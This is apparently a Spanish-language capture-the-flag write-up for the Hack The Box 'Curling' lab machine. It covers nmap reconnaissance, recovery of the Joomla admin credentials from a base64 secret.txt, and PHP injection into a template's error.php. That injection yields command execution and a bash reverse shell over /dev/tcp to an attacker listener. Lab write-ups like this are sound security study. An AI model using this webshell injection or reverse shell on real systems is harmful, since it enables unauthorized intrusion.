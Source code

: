# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]
```
ping -c 1 10.10.10.150
nmap -p- --open -vvv -sS --min-rate 5000 -n -Pn 10.10.10.150 -oG allports
extract Ports allports
nmap -sCV -p22,80 10.10.10.150 -oN target
whatweb http://10.10.10.150
nmap --script http-enum -p22,80 10.10.10.150 -oN webScan
```
![[Curling1.png]]![[Curling2.png]]
*Resultado:*
Es una maquina linux por el ttl
Puertos 22 ssh y 80 apache abiertos

--------------
# [[Enumeracion con pequeño script de NMAP y Whatweb-wappalyzer]]

![[Curling3.png]]
El whatweb no nos da ninguna información relevante, y tenemos para probar muchos directorios.
Este nos da un panel de acceso
	http://10.10.10.150/administrator/
	
Viendo el codigo fuente de la pagina principal http://10.10.10.150 al final de todo nos pone secret.txt
![[Curling4.png]]
Entramos a http://10.10.10.150/secret.txt
![[Curling5.png]]
Es una linea en base64
![[Curling6.png]]
Esta va a ser la contraseña, y el usuario lo saque de esta publicacion
![[Curling7.png]]

Usuario: Floris
Contraseña: Curling2018!

-------------
# RCE(Remote Comand Ejecution) En joomla
### Enumeracion
[Articulo que explica como sacar una revershell con joomla](https://www.hackingarticles.in/joomla-reverse-shell/)
Vamos a ir a la parte de templates, 
![[Curling8.png]]

Vamos a seleccionar la parte de templates que esta a la izquierda, y despues vamos a elegir cualquiera en mi caso uso el de beez3
![[Curling9.png]]
Ahora vamos a modificar en mi caso el archivo error.php y le vamos a inyectar este comando. Y guardamos los cambios
```
<?php system("whoami");?>
```
![[Curling10.png]]
Ahora cuando entremos al link
http://10.10.10.150/templates/beez3/error.php nos tendria que aparecer la respuesta del comando whoami
![[Curling11.png]]

### Explotacion

Como nos responde que usuarios somos, ya sabemos que hay un RCE, y vamos a intentar mandarnos una Revershell

 ```php
 <?php system("bash -c 'bash -i >& /dev/tcp/10.10.16.4/443 0>&1'");?>
```
Mientras nos ponemos en escucha con [[nc -nlvp 443]]
![[Curling12.png]]
Y listo ya ganamos acceso a la maquina
![[Curling13.png]]

-----------
# [[Apuntes Directo/Herramientas-Comandos/Tratamiento de la TTY|Tratamiento de la TTY]]

----------
# Escalada de privilegios

Encontramos esto
![[Curling15.png]]






![[Curling14.png]]


# Notas

`uname -m`
Es para ver si el OS es de 32 o 64, si devuelve x86_64 es de 64
# Creditos
[Writeup de lanzt](https://lanzt.github.io/htb/curling)
Writeup oficial de HTB

